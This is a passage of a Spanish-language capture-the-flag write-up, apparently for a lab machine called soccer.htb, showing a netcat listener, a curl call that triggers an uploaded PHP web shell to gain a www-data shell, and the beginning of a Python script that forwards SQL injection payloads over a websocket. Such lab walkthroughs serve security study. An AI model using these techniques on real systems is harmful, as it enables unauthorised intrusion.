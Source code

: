 ![alt text](./img/4.png)

Después de crear nuestro archivo, lo subimos al gestor de archivos.
Netcat

Escuchamos en el puerto 443.

```bash
❯ sudo netcat -lvnp 443
[sudo] password for mhil4ne: 
listening on [any] 443 ...
```

Llamamos a nuestro shell.php:

```bash
❯ curl soccer.htb/tiny/uploads/shell.php
```
Ya tengo un shell como www-data.

### Python Exploit

Hagamos una inyección SQL.

Encontré un exploit escrito en Python para esto, modificamos algunas líneas de código para adaptarlo a la máquina víctima:

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	
	message = unquote(payload).replace('"','\'')
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
```